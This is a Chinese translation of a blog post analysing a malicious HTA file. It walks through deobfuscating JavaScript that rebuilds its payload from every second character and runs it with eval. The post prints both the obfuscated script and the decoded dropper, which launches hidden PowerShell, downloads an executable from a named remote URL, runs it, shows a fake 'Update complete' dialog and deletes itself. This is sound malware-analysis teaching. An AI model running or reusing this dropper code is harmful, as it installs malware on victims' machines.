 # hta 恶意软件分析

> 原文：<https://infosecwriteups.com/hta-malware-analysis-96bd9263208?source=collection_archive---------2----------------------->

在这篇文章中，我们将查看一个 hta 恶意软件文件，并了解一些我们可以用来理解混淆代码的解码技术。换句话说，让我们做一些好的老式静态恶意软件分析。

![](img/99c54bad76dd458df6fbd7a0dc96d6c8.png)

```
<script>var wyyqbu=’tarjya d{x mmaomvveqTioh(j-c1b0e0r,j-v1t0c0r)d;przeismirzfeeTnof(o0n,j0l)a;j xav=angedwk jAecotbiovjeuXrObbxjheacgtt(s\’lWxsfcrrlitpatw.tSkhueplklb\’t)v;k yaj.lRmutnf(e”uPdolwvejreSnhveclslm n-lWmiknfdxoewvSitfyoldeq mHmicdzdfehnd a$ldp=v$ueunivq:wtbecmjpn+p\’t\s\m4yao2u9e2c4y8v0o8lfx6n6r9e8r5rdqeg3mal9bavdb1xew3ddh7j4s3bec0fdz.qeaxeet\’y;z(hNjewwv-a’;var nhm=’Obbnjsescute dSvyzsetsewmh.zNfeata.iWgeabzChleisefnetz)p.bDvoqwdniliovacdnFyixlnec(q\’j khqtptlpqsx:r/r/wayhvtoaeeaeoruebdjdkifts.toarvgg/y1t7t/b5j2d4m.zdsaxtq\’p,p$hdm)o;dSbtsadrptn-fPzrxokcrerslsm y$jdf;s[lSpyvsxtoenmu.fRdejfmlpeycptqiqotng.dAysfsbejmxbtluyk]r:e:qLjopafdeWniutshiPzavrstlilaqlbNbagmueh(k\’tSnymsctkefmx.uWwibnkdgorwqsk.fFkodrnmksz\’f’;var ohwrpi=’)v;k[vswylsctretmn.kwgiznndroewksl.afmowrgmesm.rmjexsvsxahguecbdoexy]a:q:bsrhjoowb(q\’nUpphdrazttes mcqozmqpclreataem.y\’h,g\’bIknkfzolrbmaactlipoenb\’c,t[jWuitnddmofwtsm.wFwodrxmwsp.vMeewswspahgweaBiowxcBtumthtvoonbse]i:u:hOvKa,a h[xSxylsutteamp.yWwimnndeoiwnsm.fFqogrrmysb.gMzefsosuangkevBoosxsIlcdomnf]d:c:dIanpfrofrxmeartdivoxnu)t;y”a,t0e,pfnaslzsi’;var uzite=’eg)s;avsavrn ybz=qnbeawg tAfcdtxiwvgetXuObbnjteccgtx(r\’uSqcrrciwpjtdipnfgr.nFeiilpeeSoyisjtsegmgOzbajbeacntu\’c)u;svuaori mpr f=v vduoacnuhmfevnxtj.klgotccamtaicomnb.dharwegfu;opa i=w nuznbeisvcwajpiee(ppe.bszuobhsstrru(t8t)g)v;xihfr d(bbf.eFjiclrejEdxaiesztksn(dpz)r)fby.fDmerlxehtkerFnifloeu(wpr)w;c v}g ecmapticnhu i(xeh)m w{z}r uceleolscel(w)t;z’;var vpropt=’ b’;var ujqffvih=wyyqbu+nhm+ohwrpi+uzite+vpropt; var gbakdvjuy=””; var kyhbqlqmmr=2; var a=0; while(a<ujqffvih.length){ gbakdvjuy +=ujqffvih.charAt(a);a +=kyhbqlqmmr; }; bztjfyeogy=”ev”.concat(“al”); window[bztjfyeogy](gbakdvjuy); </script>
```

看起来我们正在处理一些非常混乱的 javascript 代码。为了让代码更漂亮，便于我们分析和理解，首先让我们将它复制到一个新文件中，并保存为 JS 格式，以突出语法，让我们尝试对它进行一点美化。

![](img/99a665338cd49e493e4b8e4b9c275284.png)

有点美化了

好了，这样好一点了。但仍然没有多大意义。查看代码，我们可以看到在开始时声明了五个字符串变量。后来在第 13 行，它们都被连接起来了。我们可以重命名这些变量，使其更加清晰。

![](img/9ba8bdefd5e9e2a10f968fb3bd35e7ec.png)

在下一节中，还有一些变量声明和一个 while 循环。

![](img/c83a415b772d6c67c4400ce092d629b0.png)

如果我们仔细观察一下逻辑，我们可以猜测被定义为空字符串的变量“gbakdvjuy”被用来构建一个去模糊化的有效负载。

变量“kyhbqlqmnr”似乎是增量大小，在我们的例子中是二(2)。而“a”似乎是计数器，初始化为 0。

让我们继续重命名这些变量。

![](img/50a6c444a457a2e536ecd7cc7f204d80.png)

while 循环非常简单。它遍历通过组合前 4 个变量构建的 concatenatedString，并将每隔一个字符追加到新的变量有效载荷中。

我们可以运行代码到这一点，并打印出变量 payload 的最终值。

![](img/dcac25f3db34a39fda125650c75422ce.png)

```
try { moveTo(-100,-100);resizeTo(0,0); a=new ActiveXObject('Wscript.Shell'); a.Run("PowerShell -WindowStyle Hidden $d=$env:temp+'s4a2924808f66985de3a9ad1e3d743e0d.exe';(New-Object System.Net.WebClient).DownloadFile(' [https://ahtaeereddit.org/17/524.dat',$d);Start-Process](https://ahtaeereddit.org/17/524.dat',$d);Start-Process) $d;[System.Reflection.Assembly]::LoadWithPartialName('System.Windows.Forms');[system.windows.forms.messagebox]::show('Update complete.','Information',[Windows.Forms.MessageBoxButtons]::OK, [System.Windows.Forms.MessageBoxIcon]::Information);",0,false);var b=new ActiveXObject('Scripting.FileSystemObject');var p = document.location.href;p = unescape(p.substr(8));if (b.FileExists(p))b.DeleteFile(p); } catch (e) {} close();
```

由于原始文件是 HTML 应用程序(hta)文件，mshta.exe 将被用作程序代理来执行这个脚本。

我们可以看到，我们的“恶意. hta”文件在执行时会产生 PowerShell 可执行文件。

恶意软件文件的名称为“s4a 2924808 f 66985 de 3 a9 ad 1e 3d 743 e0d . exe”。而 malware.hta 中恶意 JavaScript 试图下载. dat 文件的完整网址是“[https://ahtaeereddit.org/17/524.dat](https://ahtaeereddit.org/17/524.dat)

黑客快乐！